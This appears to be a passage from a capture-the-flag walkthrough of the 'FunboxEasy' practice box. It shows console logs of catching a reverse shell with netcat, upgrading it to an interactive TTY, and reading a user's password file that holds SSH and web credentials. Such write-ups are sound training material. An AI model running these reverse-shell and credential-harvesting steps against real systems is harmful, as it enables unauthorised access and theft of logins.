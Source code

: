 ![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/26.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/27.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/28.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/29.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/30.png)


```console
root@kali:/OSCPv3/offsec_pg/FunboxEasy# nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.49.69] from (UNKNOWN) [192.168.69.111] 38816
Linux funbox3 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:42:03 up  1:41,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@funbox3:/$ ^Z
[1]+  Detenido                nc -lvnp 80
root@kali:/OSCPv3/offsec_pg/FunboxEasy# stty raw -echo
root@kali:/OSCPv3/offsec_pg/FunboxEasy# nc -lvnp 80
                                                   reset

www-data@funbox3:/$ export TERM=xterm
www-data@funbox3:/$ export SHELL=bash
www-data@funbox3:/$ stty rows 36 columns 144
```

```console
www-data@funbox3:/home$ cd tony/
www-data@funbox3:/home/tony$ ls
password.txt
www-data@funbox3:/home/tony$ cat password.txt 
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
www-data@funbox3:/home/tony$ ls -la
total 24
drwxr-xr-x 2 tony tony 4096 Oct 30  2020 .
drwxr-xr-x 3 root root 4096 Jul 30  2020 ..
-rw------- 1 tony tony    0 Oct 30  2020 .bash_history
-rw-r--r-- 1 tony tony  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 tony tony 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 tony tony  807 Feb 25  2020 .profile
-rw-rw-r-- 1 tony tony   70 Jul 31  2020 password.txt
```
